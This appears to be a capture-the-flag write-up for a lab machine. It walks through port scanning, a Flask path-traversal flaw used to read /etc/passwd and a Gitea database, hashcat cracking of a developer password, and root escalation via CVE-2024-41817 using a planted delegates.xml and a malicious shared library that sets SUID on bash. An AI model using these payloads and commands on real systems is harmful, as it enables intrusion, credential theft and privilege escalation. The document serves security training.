


## Reconnaissance

### Port Scan

```bash
sudo nmap -sC -sV 10.129.231.221
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two ports open: SSH on 22 and HTTP on 80. The web server redirects to `titanic.htb`, which was added to `/etc/hosts`.

### Web Enumeration

```bash
gobuster vhost -u http://titanic.htb \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

```
Found: dev.titanic.htb   Status: 200   [Size: 13982]
```

Added `dev.titanic.htb` to `/etc/hosts` and browsed to it.

## Foothold

### Step 1 — Gitea Source Code Exposure

Navigating to `http://dev.titanic.htb` reveals a self-hosted **Gitea** instance running version **1.22.1**.



No directly exploitable CVE exists for this version. However, registering a new account exposes a public repository containing the full source code for the main `titanic.htb` Flask application, including a dangerous `/download` endpoint.



### Step 2 — Path Traversal (LFI)

The `/download` route concatenates the user-supplied `ticket` parameter directly onto a base directory path with no sanitization or path normalization:

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

Supplying `../../../../etc/passwd` as the ticket value breaks out of `TICKETS_DIR` and reads arbitrary files:

```
http://titanic.htb/download?ticket=../../../../etc/passwd
```

```bash
cat passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

Two users with login shells: `root` and `developer`. Since Gitea runs locally, its configuration file is targeted next:

```
http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/conf/app.ini
```

```ini
[database]
PATH     = /data/gitea/gitea.db
DB_TYPE  = sqlite3
HOST     = localhost:3306
NAME     = gitea
USER     = root
PASSWD   =
LOG_SQL  = false
SSL_MODE = disable
```

The Gitea database is an SQLite file. It is pulled directly using the same traversal:

```
http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db
```

Querying the `user` table reveals the hashed credentials for `developer`:

```
2|developer|developer||developer@titanic.htb|0|enabled|
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|
pbkdf2$50000$50|...
salt: 0ce6f07fc9b557bc070fa7bef76a0d15
```

### Step 3 — Cracking the Hash

The hash algorithm is **PBKDF2-HMAC-SHA256** with 50,000 iterations — hashcat mode **10900**:

```bash
hashcat -m 10900 -a 0 hash.txt rockyou.txt --show
```

```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

Credentials recovered: `developer` / `25282528`

```bash
ssh developer@titanic.htb

developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

## Privilege Escalation

### Step 4 — CVE-2024-41817 (ImageMagick Shared Library Hijack)

Enumerating scripts on the box reveals a cron job firing every ~30 seconds as root:

```bash
cat /opt/scripts/identify_images.sh
```

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Checking the ImageMagick version:

```bash
/usr/bin/magick -version
```

```
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
```

This version is vulnerable to **CVE-2024-41817** — ImageMagick loads `delegates.xml` and shared libraries from the **current working directory** before system paths. The script runs from `/opt/app/static/assets/images`, which is world-writable, so malicious files can be planted there.

**Step 4a** — Drop a malicious `delegates.xml` that sets the SUID bit on `/bin/bash`:

```bash
cat << EOF > ./delegates.xml
<delegatemap>
  <delegate xmlns="" decode="XML" command="chmod u+s /bin/bash"/>
</delegatemap>
EOF
```

**Step 4b** — Compile a malicious shared library with a constructor that triggers the payload on load:

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod u+s /bin/bash");
    exit(0);
}
EOF
```

After ~30 seconds the cron fires, ImageMagick loads `libxcb.so.1` from the current directory, and the constructor executes as root:

```bash
developer@titanic:/opt/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash

developer@titanic:/opt/scripts$ /bin/bash -p

bash-5.1# whoami
root
```
